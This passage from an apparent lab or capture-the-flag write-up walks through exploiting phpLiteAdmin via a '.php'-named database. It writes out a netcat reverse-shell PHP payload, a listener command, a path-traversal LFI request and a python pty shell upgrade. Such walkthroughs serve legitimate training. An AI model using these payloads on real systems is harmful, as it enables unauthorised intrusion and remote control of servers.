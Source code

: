 The very first hit matches our phpLiteAdmin version number. <br>

If you run  `searchsploit -x 24044`, you'll see a document explaining how the
exploit is operated. <br>
We'll break it down, step by step.

* Create a new database with a name ending in *".php"*
![a13](https://i.imgur.com/JdLyqJl.png)
<br>
<br>

* Select this new database and create a new table with one field.
![a14](https://i.imgur.com/sfGcXbM.png)
<br>
<br>
* Set the field to the "__Text__" type, and enter a php-command payload as the Default Value. <br>
I decided to use my most reliable netcat-based reverse-shell. <br> <br>
`<?php passthru("rm /tmp/f; mkfifo /tmp/f; cat /tmp/f|/bin/sh -i 2>&1|nc local.machine.ip.addr PORTNUM > /tmp/f"); ?>`


![a15](https://i.imgur.com/ageVsIt.png)
<br>


* Create the table, and set up the listener on your local machine.

`nc -lnvp PORTNUM`

<br>
![a16](https://i.imgur.com/Q1XQfzi.png)
<br>

* Visiting the database in the browser, using our handy-dandy LFI vulnerability will run the payload and pop our shell.

`http://192.168.56.101/view.php?page=../../../../usr/databases/a.php`

<br>
![a17](https://i.imgur.com/MSq2t1h.png)
<br>



## 3. From `www-data` to User

This shell could use some improvement, so let's see if we can't spawn a bash shell with a tty using python.

  `which python` <br>
  `which bash` <br>
  `python -c 'import pty;pty.spawn("/bin/bash")'`

<br>
![a18](https://i.imgur.com/fRMKgcG.png)
<br>
